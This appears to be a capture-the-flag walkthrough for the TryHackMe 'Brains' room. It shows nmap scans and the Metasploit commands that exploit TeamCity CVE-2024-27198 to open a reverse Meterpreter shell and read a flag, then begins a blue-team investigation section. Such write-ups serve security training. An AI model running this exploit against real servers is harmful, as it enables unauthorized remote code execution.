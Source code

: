 ![Nmap Scan](Theme%20Brains.JPG)
> 🧠 Room: [Brains](https://tryhackme.com/room/brains)  
> 📅 Date: April 6, 2025  
> 🛡️ Goal: Gain reverse shell & capture the flag  
> 🚨 CVE used: CVE-2024-27198

# RED exploit the server! 
# What is the content of flag.txt in the user's home folder?

<Details>
# 1. First Step: run in the Terminal "nmap -p- "<Target_IP_Address>"

```bash
nmap -p- 10.10.252.192
````
1. "nmap" -> The network scanner tool
2. "-p-"  -> Scans all ports (from 1 to 65535). By default, Nmap scans only the top 1000 most common ports.
3. "<Target_IP_Address>" -> The IP address of the target — in the case of the Brains room
   
![Nmap Scan](Brain%20Room%20Nmap%20scan.JPG)

# What ports are open and why they matter: 
1. 22/tcp → ssh (This port is used for Secure Shell (SSH) — remote access to the machine via terminal.)
2. 80/tcp → HTTP (This is the default HTTP port, used to serve websites.)
3. 50000/tcp → ibm-db2 (detected by default) This is not a common service for this port. In this specific room (Brains), this port is hosting a TeamCity server, vulnerable to CVE-2024-27198.

# Run a targeted service/version scan for PORT 50000 "nmap -sV -p 50000 <Target_IP_Address>"
```bash
nmap -sV -p 50000 10.10.252.192
```

# 2. Second Step: What port should we investigate further + Using Metasploit (msfconsole) to Exploit the TeamCity Vulnerability

*The most interesting one here is Port 50000: even though it's labeled ibm-db2, we know now it runs TeamCity, which is vulnerable to authentication bypass and remote code execution (RCE).*
```bash
msfconsole
```
1. "msfconsole" -> This launches the Metasploit interface.

```bash
search teamcity
```
1. "search teamcity" -> This will list available exploit modules related to TeamCity
*Look for one like: exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198*

#  Use the module:
```bash
use exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198
```
# After loading an exploit module in Metasploit, you should always run: 
```bash
options
```
1. "options" -> This command shows you all the configurable parameters for the selected module
   
![Nmap Scan](Brain%20Room%20exploit%20run.JPG)

*We need to set the correct options before running the exploit.*
```bash
set RHOSTS 10.10.252.192     # Target IP address
set RPORT 50000              # Target port where TeamCity is running
```
*Once all the necessary parameters (like RHOSTS, RPORT) are configured and verified using the options command, it's time to execute the exploit*
```bash
run   #or exploit
```
# Expected Output:
*If the target is vulnerable and the configuration is correct, you should see output similar to this:*
```bash
[*] Started reverse TCP handler on 10.10.X.X:4444
[*] Sending stage (57971 bytes) to 10.10.X.X
[*] Meterpreter session 1 opened ...
```
*This confirms that you now have a meterpreter shell on the target machine!*

# Now That We Are in Meterpreter...Navigate the file system
```bash
cd /home/cd ubuntu
ls
```
*Once you find it, read its contents*
```bash
cat flag.txt
```
![Nmap Scan](Brain%20Room%20flag.JPG)

# ✅ CONGRATULATIONS!!! Now we have the first FLAG
# For ethical and platform policy reasons, I cannot display the actual contents of the flag.txt file
*Instead, here is a simulated example of what the output would look like:*

```bash
meterpreter > cat flag.txt
THM{redacted_for_policy}
```
</Details>

# BLUE lets investigate!
# What is the name of the backdoor user which was created on the server after exploitation?
<Details>
   
# 1. First Step: Access the Web Application
*Once the target machine is deployed, open your web browser and navigate to the following address:*
```bash
10.10.249.14:8000
```
1. "10.10.249.14" -> The target machine's IP address
2. "8000" -> The port number

